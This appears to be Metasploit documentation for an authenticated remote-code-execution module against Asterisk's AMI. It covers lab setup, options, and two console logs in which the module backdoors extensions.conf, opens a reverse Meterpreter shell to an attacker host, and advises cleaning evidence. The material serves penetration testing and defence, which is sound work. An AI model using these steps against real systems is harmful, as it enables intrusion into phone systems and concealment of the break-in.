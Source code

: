 ## Vulnerable Application

On Asterisk, prior to versions 18.24.2, 20.9.2, and 21.4.2 and certified-asterisk
versions 18.9-cert11 and 20.7-cert2, an AMI user with 'write=originate' may change
all configuration files in the '/etc/asterisk/' directory. Writing a new extension
can be created which performs a system command to achieve RCE as the asterisk service
user (typically asterisk).

Default parking lot in FreePBX is called "Default lot" on the website interface,
however its actually 'parkedcalls'.

Tested against Asterisk 19.8.0 on Freepbx SNG7-PBX16-64bit-2302-1.

Asterisk 18.6.0 on Freepbx SNG7-PBX16-64bit-2302-1 was NOT exploitable.

### Install

One easy method, while outdated, is using the FreePBX ISO.

1. Boot to ISO and install the system. Choose Asterisk 19
2. Visit the web interface on port 80
3. Complete initial setup, make sure to not do updates.
4. login
5. Click FreePBX Administration
6. Click the hamburger > Applications > Parking
7. Check the parking extension and name (`70` and `Default lot` are the defaults)
8. Login (ssh/local) and edit `/etc/asterisk/manager.conf`
  1. Under `[general]`:
    1. Change `bindaddr` value to `0.0.0.0`
    2. If you'd like to test the version checking, grab admin's secret, and set `permit=0.0.0.0/0.0.0.0`
    3. Add the following at the bottom of the file:
    ```
[testuser]
secret=testuser
write=originate
permit=0.0.0.0/255.255.255.0
    ```
9. reboot box (after boot, it may take SEVERAL minutes for asterisk to come up)

Default parking lot is called "Default lot" in the website interface, however its actually `parkedcalls`

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/misc/asterisk_ami_originate_auth_rce `
1. Do: `set rhosts <rhost>`
1. Do: `set lhost <lhost>`
1. Do: `set username <username>`
1. Do: `set password <password>`
1. You should get a shell.

## Options

### CONF

The extensions configuration file location. Defaults to `/etc/asterisk/extensions.conf`

### PARKINGLOT

The extensions and name of the parking lot. Defaults to `70@parkedcalls`

### EXTENSION

The extension number to backdoor. Defaults to a random number between 3-5 digits.

## Scenarios

### FreePBX 12.7.8-2302-1.sng7 (SNG7-PBX16-64bit-2302-1) with Asterisk 19

```
resource (ami.rb)> use exploit/linux/misc/asterisk_ami_originate_auth_rce
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
resource (ami.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (ami.rb)> set lhost 2.2.2.2
lhost => 2.2.2.2
resource (ami.rb)> set username testuser
username => testuser
resource (ami.rb)> set password testuser
password => testuser
resource (ami.rb)> set verbose true
verbose => true
msf6 exploit(linux/misc/asterisk_ami_originate_auth_rce) > set parkinglot 700@parkedcalls
parkinglot => 700@parkedcalls
msf6 exploit(linux/misc/asterisk_ami_originate_auth_rce) > exploit

[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] 1.1.1.1:5038 - Running automatic check ("set AutoCheck false" to disable)
[*] 1.1.1.1:5038 - Connecting...
[*] 1.1.1.1:5038 - Found Asterisk Call Manager version 8.0.2
[*] 1.1.1.1:5038 - Authenticating as 'testuser'
[!] 1.1.1.1:5038 - No active DB -- Credential data will not be saved!
[+] 1.1.1.1:5038 - Authenticated successfully
[*] 1.1.1.1:5038 - Checking Asterisk version
[!] 1.1.1.1:5038 - The service is running, but could not be validated. Able to connect, unable to determine version
[*] 1.1.1.1:5038 - Connecting...
[*] 1.1.1.1:5038 - Found Asterisk Call Manager version 8.0.2
[*] 1.1.1.1:5038 - Authenticating as 'testuser'
[+] 1.1.1.1:5038 - Authenticated successfully
[*] 1.1.1.1:5038 - Using new context name: EfVeZSDeGcn
[*] 1.1.1.1:5038 - Loading conf file
[+] 1.1.1.1:5038 -   Response: Success, Message: Originate successfully queued
[*] 1.1.1.1:5038 - Setting backdoor
[+] 1.1.1.1:5038 -   Response: Success, Message: Originate successfully queued
[*] 1.1.1.1:5038 - Reloading config
[+] 1.1.1.1:5038 -   Response: Success, Message: Originate successfully queued
[*] 1.1.1.1:5038 - Triggering shellcode
[*] Sending stage (24772 bytes) to 1.1.1.1
[+] 1.1.1.1:5038 - !!!Don't forget to clean evidence from /etc/asterisk/extensions.conf!!!
[*] Meterpreter session 1 opened (2.2.2.2:4444 -> 1.1.1.1:43812) at 2024-11-04 09:09:57 -0500

meterpreter > shell
Process 5831 created.
Channel 1 created.
asterisk -rx "core show version"
Asterisk 19.8.0 built by mockbuild @ jenkins7 on a x86_64 running Linux on 2023-01-16 07:07:49 UTC
cat /etc/schmooze/pbx-version
12.7.8-2302-1.sng7
```

### FreePBX 12.7.8-2302-1.sng7 (SNG7-PBX16-64bit-2302-1) with Asterisk 18

```
resource (ami.rb)> use exploit/linux/misc/asterisk_ami_originate_auth_rce
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
resource (ami.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (ami.rb)> set lhost 2.2.2.2
lhost => 2.2.2.2
resource (ami.rb)> set username testuser
username => testuser
resource (ami.rb)> set password testuser
password => testuser
resource (ami.rb)> set verbose true
verbose => true
msf6 exploit(linux/misc/asterisk_ami_originate_auth_rce) > set parkinglot 700@parkedcalls
parkinglot => 700@parkedcalls
msf6 exploit(linux/misc/asterisk_ami_originate_auth_rce) > exploit

[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] 1.1.1.1:5038 - Running automatic check ("set AutoCheck false" to disable)
[*] 1.1.1.1:5038 - Connecting...
[*] 1.1.1.1:5038 - Found Asterisk Call Manager version 7.0.3
[*] 1.1.1.1:5038 - Authenticating as 'testuser'
[!] 1.1.1.1:5038 - No active DB -- Credential data will not be saved!
[+] 1.1.1.1:5038 - Authenticated successfully
[*] 1.1.1.1:5038 - Checking Asterisk version
[!] 1.1.1.1:5038 - The service is running, but could not be validated. Able to connect, unable to determine version
[*] 1.1.1.1:5038 - Connecting...
[*] 1.1.1.1:5038 - Found Asterisk Call Manager version 7.0.3
[*] 1.1.1.1:5038 - Authenticating as 'testuser'
[+] 1.1.1.1:5038 - Authenticated successfully
[*] 1.1.1.1:5038 - Using new context name: fSvWOLdAx
[*] 1.1.1.1:5038 - Loading conf file
[+] 1.1.1.1:5038 -   Response: Success, Message: Originate successfully queued
[*] 1.1.1.1:5038 - Setting backdoor
[+] 1.1.1.1:5038 -   Response: Success, Message: Originate successfully queued
[*] 1.1.1.1:5038 - Reloading config
[+] 1.1.1.1:5038 -   Response: Success, Message: Originate successfully queued
[*] 1.1.1.1:5038 - Triggering shellcode
[*] Sending stage (24772 bytes) to 1.1.1.1
[+] 1.1.1.1:5038 - !!!Don't forget to clean evidence from /etc/asterisk/extensions.conf!!!
[*] Meterpreter session 1 opened (2.2.2.2:4444 -> 1.1.1.1:53468) at 2024-11-04 09:37:35 -0500

meterpreter > shell
Process 3977 created.
Channel 1 created.
asterisk -rx "core show version"
Asterisk 18.16.0 built by mockbuild @ jenkins7 on a x86_64 running Linux on 2023-01-16 06:50:30 UTC
cat /etc/schmooze/pbx-version
12.7.8-2302-1.sng7
```